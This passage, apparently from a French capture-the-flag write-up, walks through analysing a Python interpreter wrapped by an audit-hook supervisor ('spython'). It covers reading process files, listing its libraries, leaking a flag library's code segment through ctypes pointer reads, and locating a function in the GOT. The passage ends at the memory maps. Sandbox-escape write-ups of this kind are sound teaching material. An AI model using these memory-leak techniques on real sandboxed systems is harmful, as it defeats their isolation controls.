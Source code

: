 Mais nous n'avons pas le droit de lecture dessus ... 

En continuant de lire des fichiers qui peuvent nous être utiles, nous remarquons ceci:

```
>>> o('/proc/self/cmdline').read()
'./spython\x00-S\x00-B\x00-I\x00'
```

L'interpreteur python semble être wrappé par un autre programme qui doit auditer les événements.
Analysons-le en local:
```
o('./spython', 'rb').read()
```

## Analyse statique du superviseur

```
$ ldd spython
	linux-vdso.so.1 (0x00007ffede3e8000)
	libpython3.8.so.1.0 => not found
	lib_flag.so => not found
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fabcf1d1000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fabcf5c2000)
```

Comme constaté avant, nous voyons cette librairie lib_flag.so qui est chargée à l'exécution du programme.
Donc son code, qui contient aussi la fonction "print_flag" est présent aussi en mémoire !

J'ai essayé de leak l'espace mappé pour reconstituer l'ELF de la librairie, mais l'agencement en mémoire étant différent de l'agencement statique d'un ELF je n'ai pas réussi ...

J'ai quand même pu leak le segment .text de la librarie avec ctypes:

```
>>> base_text = 0x7f9888ac4000
>>> ptr = c.POINTER(c.c_char)

for i in range(0x1000):
... 	mem += chr(ord(c.cast(base_text+i,ptr).contents.value))
mem
```

En analysant de plus près spython, nous remarquons que la fonction "welcome" est appelée au début du programme, elle est présente dans la librairie lib_flag et est donc présente dans la GOT de spython.

Nous retrouvons également dans spython l'appel à **PySys_AddAuditHook** qui va permettre le filtrage des événements.

## Leak de l'adresse de la fonction welcome

Le binaire spython est mappé à ces adresses en mémoire:

```
561e4a711000-561e4a712000 r--p 00000000 09:03 14419495                   /app/spython
561e4a712000-561e4a713000 r-xp 00001000 09:03 14419495                   /app/spython
561e4a713000-561e4a714000 r--p 00002000 09:03 14419495                   /app/spython
561e4a714000-561e4a715000 r--p 00002000 09:03 14419495                   /app/spython
561e4a715000-561e4a716000 rw-p 00003000 09:03 14419495                   /app/spython
```
